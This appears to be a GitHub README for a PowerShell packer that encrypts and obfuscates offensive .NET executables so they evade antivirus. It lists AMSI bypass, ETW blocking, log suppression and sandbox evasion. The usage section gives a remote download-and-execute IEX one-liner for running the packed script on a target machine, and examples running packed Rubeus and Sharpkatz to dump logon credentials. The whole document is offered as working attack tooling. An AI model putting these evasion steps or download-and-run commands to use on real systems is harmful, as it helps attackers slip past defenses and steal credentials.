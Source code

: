### Invoke-PoSH-CsharpPacker
--------------------------------------
'Invoke-PoSH-CsharpPacker' allows to pack and encrypt offensive (C#) .NET executable files in order to bypass AV solutions such as Windows Defender.
It generates an obfuscated and encrypted PowerShell script that contains the (C#) .NET executable file that you want to pack.

#### FEATURES
  - AES encryption and GZip/Deflate compression (based on 'Xencrypt')
  - AMSI bypass <i/>(bypass AMSI for Assembly.Load())</i>
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  - Basic sandbox evasion techniques (optional)
    - stop/exit if the PowerShell script is not run on a domain-joined Windows computer 
    - stop/exit if the PowerShell session is being debugged (detection based on "Test-Path Variable:PSDebugContext")
    - wait for 60 seconds before execution
  
#### USAGE
  - Step 1. Generate an obfuscated & encrypted PowerShell script that contains your (C#) .NET executable file (e.g. Rubeus.exe, Sharpkatz.exe) stored locally or on a remote web server.  
```
PS C:\> Import-Module ./Invoke-PoSH-CsharpPacker.ps1
PS C:\> Invoke-PoSH-CsharpPacker -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1
--- or ---
PS C:\> Invoke-PoSH-CsharpPacker -FilePath C:\path\Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```
```
PS C:\> Import-Module ./Invoke-PoSH-CsharpPacker.ps1
PS C:\> Invoke-PoSH-CsharpPacker -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 
--- or ---
PS C:\> Invoke-PoSH-CsharpPacker -FileUrl https://URL/Csharp-binary.exe -OutFile C:\path\Packed-Csharp-binary.ps1 -Sandbox
```
  - Step 2. Download & execute the obfuscated & encrypted PowerShell script (that contains your (C#) .NET executable file) on a target Windows computer
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://URL/Packed-Csharp-binary.ps1'); 
--- or ---
PS C:\> WGET -URI https://URL/Packed-Csharp-binary.ps1 -OutFile C:\temp\Packed-Csharp-binary.ps1
PS C:\> Import-Module C:\temp\Packed-Csharp-binary.ps1
``` 
  - Step 3. Execute the packed version of your (C#) .NET executable file   
    - Generic command: ``` PS C:\> Invoke-Packed-NET-Executable argument1 argument2 argument3 ...``` 
    - Exemple with a packed version of Rubeus.exe: ```Invoke-Packed-NET-Executable logonsession /current```  
    - Example with a packed version of Sharpkatz.exe: ```Invoke-Packed-NET-Executable --Command logonpasswords``` 


#### LICENSE
  - GNU General Public License v3.0
